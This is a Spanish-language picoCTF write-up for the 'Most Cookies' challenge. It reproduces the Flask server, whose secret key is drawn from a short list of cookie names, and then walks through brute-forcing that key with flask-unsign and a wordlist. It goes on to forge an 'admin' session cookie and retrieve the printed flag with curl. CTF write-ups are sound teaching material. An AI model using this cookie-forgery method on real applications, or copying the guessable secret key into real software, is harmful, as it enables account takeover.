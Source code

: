 Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:52134/

- How secure is a flask cookie?

## Solucion

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```

### Crackeo de la cookie

google> crack fkask cookie kali>  https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

- tomamos el header de la cookie y lo de codificamos
```
echo "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0" | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input

```

- buscamos en el server.py y nos damos cuenta que debe ser 'admin' para ver la bandera,, pero falla
```
echo "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9" | base64 -d           
{"very_auth":"blank"}   
```

### Intentamos instalar flask-unsign

```
sudo apt install flask-unsign
python3 -m pip install flask-unsign
sudo apt install python3-flask-unsign
```



- Creamos un ambiente virtual para instalar flask-unsign
```
sudo apt install python3-venv
mkdir ~/.venv
python3 -m venv ~/.venv
source ~/.venv/bin/activate
python3 -m pip install flask-unsign

```
- creamos una lista de palabras con las cookies en el server.py
- en leafpad hay que decirle al replazar que es una expresion regular>. ", " por \n
```
"snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"
```


```

flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvjnRw.Q5G5QHhKYq9xFoso9FdKux2onHE" --wordlist cookies.txt 

[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'


flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvjmyA.rOSGr63LbcfgXKNLDFyr0jyaxNI




 curl -s http://mercury.picoctf.net:52134/display -H "Cookie: session= eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvjkTA.pELtbtVsYtnu8Vwz4vbwJjpQIBw" |  grep -oE "picoCTF{.*?}"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_478da04c}</code></p>





```

# la opcion mas facil

```
sudo apt install pipx
pipx ensurepath
pipx install flask-unsign

```